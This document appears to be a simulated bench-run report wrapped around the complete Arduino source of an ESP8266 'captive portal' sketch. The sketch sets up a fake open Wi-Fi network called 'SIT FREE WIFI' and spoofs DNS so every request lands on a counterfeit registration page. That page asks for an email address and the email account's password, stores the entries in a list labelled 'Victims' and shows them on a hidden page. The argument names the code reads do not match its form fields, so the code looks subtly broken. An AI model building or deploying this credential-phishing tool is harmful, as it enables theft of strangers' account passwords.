
Bench run of a sketch on a simulated ESP8266 (NodeMCU). Parts: output pins drawn as LEDs (lit = HIGH, except the on-board LED, lit = LOW). Dashed ring = blinking. Inputs (shaded band) come from the test bench.

Above: at 1.2 s.
1.3 s: HTTP request GET /post received
At 1.7 s:

Timing chart, 0 to 5.3 s (numbered marks = the images above; inputs shaded):


Measured:
- after the input at 1.3 s, GPIO 2: alternates HIGH for 0.50 s and LOW for 0.50 s, 6 changes in all, then stays HIGH, starting at once

The sketch:

captive_portal.ino
```cpp
//captive portal
//follow me on IG not._.jyotishko

// Includes
#include <ESP8266WiFi.h>
#include <DNSServer.h>
#include <ESP8266WebServer.h>

// User configuration
#define SSID_NAME "SIT FREE WIFI"
#define SUBTITLE "PLEASE CONNECT TO ENJOY HIGH SPEED NET."
#define TITLE "Register:"
#define BODY "Create an account to get connected to the internet."
#define POST_TITLE "Validating..."
#define POST_BODY " Your account is being validated. Please, wait up to 3 minutes for device connection.</br> Thank you."
#define PASS_TITLE "Victims"
#define CLEAR_TITLE "Cleared"

//System Settings
const byte HTTP_CODE = 200;
const byte DNS_PORT = 53;
const byte TICK_TIMER = 1000;
IPAddress APIP(172, 0, 0, 1); // Gateway

String Victims = "";
unsigned long bootTime = 0, lastActivity = 0, lastTick = 0, tickCtr = 0;
DNSServer dnsServer; ESP8266WebServer webServer(80);

String input(String argName) {
  String a = webServer.arg(argName);
  a.replace("<", "&lt;"); a.replace(">", "&gt;");
  a.substring(0, 200); return a;
}

String footer() {
  return
    "<br><footer><div><center><p>Copyright&#169; 2019-2020 | All rights reserved.</p></center></div></footer>";
}

String header(String t) {
  String a = String(SSID_NAME);
  String CSS = "article { background: #f2f2f2; padding: 1.3em; }"
               "body { color: #333; font-family: Century Gothic, sans-serif; font-size: 18px; line-height: 24px; margin: 0; padding: 0; }"
               "div { padding: 0.5em; }"
               "h1 { margin: 0.5em 0 0 0; padding: 0.5em; }"
               // Data input box
               "input{ width: 100%; padding: 12px 20px; margin: 8px 0; box-sizing: border-box; border-radius: 0; border: 2px solid #08B794; }"
               "label { color: #333; display: block; font-style: italic; font-weight: bold; }"
               //  Free WiFi Navbar
               "nav { background: #08B794; color: #fff; display: block; font-size: 1.3em; padding: 1em; }"
               "nav b { display: block; font-size: 1.5em; margin-bottom: 0.5em; } "
               "textarea { width: 100%; }"
               " input{width: 100%;border-box border: 2px solid red;border-radius: 4px}";
  //  index html
  String h = "<!DOCTYPE html><html>"
             "<head><title>" + a + " :: " + t + "</title>"
             "<meta name=viewport content=\"width=device-width,initial-scale=1\">"
             "<style>" + CSS + "</style></head>"
             "<body><nav><b>" + a + "</b> " + SUBTITLE + "</nav><div><h1>" + t + "</h1></div>";
  return h;
}

String pass() {
  return header(PASS_TITLE) + "<ol>" + Victims + "</ol><br><center><p><a style=\"color:blue\" href=/>Back to Index</a></p><p><a style=\"color:blue\" href=/clear>Clear passwords</a></p></center>" + footer();
}

String index() {
  return header(TITLE) + "<div>" + BODY + "</ol></div><div><form action=/post method=post>" +
         "<b> Email:   </b> <center> <input  type=text autocomplete=email name=email placeholder=yourmail@gmail.com></center>" +
         "<b> Password:</b> <center> <input type=password name=password placeholder=password></center>" +
         "<p>&#9745;I have read and agree to the Privacy Policy</p>" +
         //SUBMIT
         "<center><input type=submit  style=background:#08B794;font-size:17px;color:white;cursor:pointer;  value=\"Register\"></center></form>" + footer();

}


String posted() {
  String email = input("enter your email");
  String password = input("enter the password of your email");
  Victims = "<li>Email:  <b>" + email + "</b></br>Password:  <b style=color:#ea5455;>" + password + "</b></li>" + Victims;
  return header(POST_TITLE) + POST_BODY + footer();
}

String clear() {
  String email = "<p></p>";
  String password = "<p></p>";
  Victims = "<p></p>";
  return header(CLEAR_TITLE) + "<div><p>The Victims list has been reseted.</div></p><center><a style=\"color:blue\" href=/>Back to Index</a></center>" + footer();
}

void BLINK() {
  int count = 1;
  while (count <= 3) {   // The internal LED will blink 3 times when a password is received.
    digitalWrite(BUILTIN_LED, LOW);
    delay(500);
    digitalWrite(BUILTIN_LED, HIGH);
    delay(500);
    count = count + 1;
  }
}
void setup() {
  bootTime = lastActivity = millis();
  WiFi.mode(WIFI_AP);
  WiFi.softAPConfig(APIP, APIP, IPAddress(255, 255, 255, 0));
  WiFi.softAP(SSID_NAME);
  dnsServer.start(DNS_PORT, "*", APIP); // DNS spoofing (Only HTTP)
  webServer.on("/post", []() {
    webServer.send(HTTP_CODE, "text/html", posted());
    BLINK();

  });
  webServer.on("/pass", []() {
    webServer.send(HTTP_CODE, "text/html", pass());
  });
  webServer.on("/clear", []() {
    webServer.send(HTTP_CODE, "text/html", clear());
  });
  webServer.onNotFound([]() {
    lastActivity = millis();
    webServer.send(HTTP_CODE, "text/html", index());
  });

  webServer.begin();
  pinMode(BUILTIN_LED, OUTPUT);
  digitalWrite(BUILTIN_LED, HIGH);

}


void loop() {
  if ((millis() - lastTick) > TICK_TIMER) {
    lastTick = millis();
  }
  dnsServer.processNextRequest(); webServer.handleClient();


//AFTER ITS DONE THE CONTROLLER WILL BLINK 3 TIMES
//check passwords in"http://yourcurrentwebsite.com/creds" or "172.0.0.1/creds
}
```
